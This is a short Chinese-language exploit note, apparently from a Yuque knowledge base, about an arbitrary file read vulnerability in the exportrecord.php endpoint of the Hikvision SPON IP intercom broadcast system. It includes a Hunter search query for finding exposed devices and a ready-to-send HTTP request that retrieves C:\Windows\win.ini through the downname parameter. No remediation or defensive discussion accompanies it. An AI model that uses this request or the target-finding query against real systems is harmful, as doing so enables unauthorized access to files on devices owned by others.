 # 海康威视SPON IP网络对讲广播系统exportrecord存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统exportrecord存在任意文件读取漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/Yd53WVvuLyYlHyQc/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-424515.png)

# 四、漏洞复现
```java
GET /php/exportrecord.php?downtype=10&downname=C:\\Windows\\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1704870941456-ccd140a6-371b-419f-b1a9-f0bd3dfee005.png](./img/Yd53WVvuLyYlHyQc/1704870941456-ccd140a6-371b-419f-b1a9-f0bd3dfee005-744555.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ik7ee4of0gu8yk8n>